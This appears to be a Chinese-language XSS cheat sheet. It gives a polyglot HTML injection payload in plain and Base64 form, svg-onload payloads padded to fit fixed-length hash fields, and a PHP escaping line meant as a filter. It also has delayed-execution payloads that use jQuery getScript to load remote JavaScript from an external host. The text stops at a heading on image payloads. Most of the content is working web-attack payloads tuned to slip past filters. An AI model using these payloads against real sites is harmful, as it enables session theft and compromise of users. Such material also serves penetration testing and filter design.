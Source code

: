 
## 多场景HTML注入

**作为一次性注入使用，以提高XSS攻击的成功率。它适用于所有HTML上下文（见基础知识部分），包括通过标签注入的JS上下文。注入空格的适用，可以绕过应用程序的简单过滤或转义**

```javascript
</Script/"'--><Body /Autofocus /OnFocus = confirm`1` <!--> 
```



## 多场景HTML注入 - Base64编码

**作为一次性注入使用，以提高在 Base64 输入字段中的 XSS 攻击成功率。它适用于所有 HTML 上下文（见基础知识部分），包括通过标签注入的 JS 上下文。**

```base64
PC9TY3JpcHQvIictLT48Qm9keSAvQXV0b2ZvY3VzIC9PbkZvY3VzID0gY29uZmlybWAxYCA8IS0tPg==
```



## 固定长度输入的注入payload

**当输入必须具有固定长度时使用，例如在大多数常见的哈希值中。**

```javascript
MD5 12345678901<svg/onload=alert(1)>
SHA1 1234567890123456789<svg/onload=alert(1)>
SHA256 1234567890123456789012345678901234567890123<svg/onload=alert(1)>

```



## PHP XSS过滤器

**用于防止所有上下文中的 XSS 攻击，只要输入不会反映在非分隔字符串、反引号中间或任何其他类似 `eval` 的函数中（所有这些都在 JS 上下文中）。它不能防止基于 DOM 的 XSS，仅适用于基于源码的 XSS 情况**

```php
$input = preg_replace("/:|\\\/", "", htmlentities($input, ENT_QUOTES))
```



## JavaScript 执行延迟

**当 JavaScript 库或其他注入所需的资源尚未完全加载时使用。以下是一个基于 jQuery 的外部调用示例。**

```javascript
onload=function(){$.getScript('//brutelogic.com.br/2.js')}
onload=x=>$.getScript('//brutelogic.com.br/2.js')
```



## 图片payload - 代替事件处理器

**用于触发图片的payload，使用不同于 `onerror` 的事件处理器。**
